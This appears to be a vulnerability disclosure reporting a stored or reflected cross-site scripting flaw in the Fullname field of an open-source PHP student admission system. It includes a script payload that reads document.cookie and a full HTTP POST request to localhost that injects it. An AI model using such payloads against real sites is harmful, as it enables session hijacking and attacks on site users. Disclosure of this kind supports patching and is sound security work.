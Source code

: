 # Online Student Admission System v1.0 by Walterjnr1 has Cross Site Scripting

BUG_Author: ppgod

vendors:https://www.sourcecodester.com/php/14874/online-student-admission-system.html

Vulnerability File: online-admission-system-RITMAN/apply/admission.php

XSS vulnerability at Fullname

![image](https://github.com/ppwink/pic/blob/main/admi.png)

Payload: <script>alert(document.cookie)</script>

```
POST /online-admission-system-RITMAN/apply/admission.php HTTP/1.1
Host: localhost
Content-Length: 203
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/online-admission-system-RITMAN/apply/admission.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=1j6s1p5feop3me379jbfoi898d
Connection: close

txtfullname=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&cmdsex=Male&txtphone=1&txtemail=2%40gmail.com&txtlga=+3&txtstate=4&txtjambno=5&txtjambscore=6&txtfaculty=7&txtdept=8&txtexam=9&btnsubmit=
```

After clicking the Submit button, the xss box will pop up

![image](https://github.com/ppwink/pic/blob/main/xss.png)
